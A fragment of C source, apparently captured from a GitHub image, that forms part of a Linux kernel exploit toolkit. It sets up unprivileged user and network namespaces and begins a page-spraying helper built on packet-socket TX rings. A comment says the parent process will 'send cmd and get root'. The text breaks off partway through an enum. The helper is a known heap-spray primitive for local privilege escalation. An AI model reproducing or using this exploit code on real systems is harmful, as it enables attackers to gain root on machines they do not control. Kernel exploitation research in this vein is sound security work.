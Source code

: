 ```c
{
    printf(ERROR_MSG("[x] Error at: ") "%s\n", msg);
    sleep(5);
    exit(EXIT_FAILURE);
}

int unshare_setup(void)
{
    char edit[0x100];
    int tmp_fd;

    if (unshare(CLONE_NEWNS | CLONE_NEWUSER | CLONE_NEWNET) < 0) {
        log_error("[x] Unable to create new namespace for PGV subsystem");
        return -EPERM;
    }

    tmp_fd = open("/proc/self/setgroups", O_WRONLY);
    write(tmp_fd, "deny", strlen("deny"));
    close(tmp_fd);

    tmp_fd = open("/proc/self/uid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getuid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);

    tmp_fd = open("/proc/self/gid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getgid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);

    return 0;
}

/**
 * pgv pages sprayer related 
 * not that we should create two process:
 * - the parent is the one to send cmd and get root
 * - the child creates an isolate userspace by calling unshare_setup(),
 *      receiving cmd from parent and operates it only
**/

#define PGV_SOCKET_MAX_NR 1024
#define PACKET_VERSION 10
#define PACKET_TX_RING 13

struct tpacket_req {
    unsigned int tp_block_size;
    unsigned int tp_block_nr;
    unsigned int tp_frame_size;
    unsigned int tp_frame_nr;
};

struct pgv_page_request {
    int idx;
    int cmd;
    unsigned int size;
    unsigned int nr;
};

enum {
    PGV_CMD_ALLOC_SOCKET,
    PGV_CMD_ALLOC_PAGE,
    PGV_CMD_FREE_PAGE,
```